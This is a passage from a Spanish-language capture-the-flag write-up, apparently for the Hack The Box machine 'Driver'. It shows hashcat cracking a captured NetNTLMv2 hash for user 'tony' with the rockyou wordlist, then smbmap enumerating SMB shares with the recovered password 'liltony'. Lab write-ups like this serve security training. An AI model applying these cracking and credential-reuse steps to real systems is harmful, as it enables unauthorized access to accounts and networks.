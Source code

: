 Perfecto, nos lo reconoce como NetNTLMv2, ahora tratemos de romperlo con ayuda de la herramienta **`hashcat`**.

```console
p3ntest1ng:~$ hashcat --help | grep NetNTLMv2
   5600 | NetNTLMv2                  | Network Protocols
p3ntest1ng:~$ hashcat -a 0 -m 5600 tony.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

...[snip]...

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

TONY::DRIVER:aaaaaaaaaaaaaaaa:9991db804510f48964a41ea7deb9f4e9:0101000000000000002605df4b2ad801e44969567acd523200000000010010004800700049006f006700490055006600030010004800700049006f0067004900550066000200100075006c00500070004f004a00730041000400100075006c00500070004f004a007300410007000800002605df4b2ad80106000400020000000800300030000000000000000000000000200000539a457fb58fa01a9211ce1bc906e7ae99c28bdb93afbca3f53a76a6ca6e05a50a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0032003500000000000000000000000000:liltony
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: TONY::DRIVER:aaaaaaaaaaaaaaaa:9991db804510f48964a41...000000
Time.Started.....: Fri Feb 25 14:46:50 2022 (0 secs)
Time.Estimated...: Fri Feb 25 14:46:50 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   230.1 kH/s (5.72ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 32768/14344385 (0.23%)
Rejected.........: 0/32768 (0.00%)
Restore.Point....: 30720/14344385 (0.21%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: !!!!!! -> eatme1

Started: Fri Feb 25 14:46:47 2022
Stopped: Fri Feb 25 14:46:52 2022
```

En pocos segundos nos devuelve la contraseña, ya podemos usar estas credenciales contra el SMB. Veamos los recursos compartidos.

```console
p3ntest1ng:~$ smbmap -H 10.10.11.106 -u tony -p 'liltony'
[+] IP: 10.10.11.106:445	Name: driver.htb                                        
    Disk                           Permissions	Comment
	----                           -----------	-------
	ADMIN$                         NO ACCESS	Remote Admin
	C$                             NO ACCESS	Default share
	IPC$                           READ ONLY	Remote IPC
```
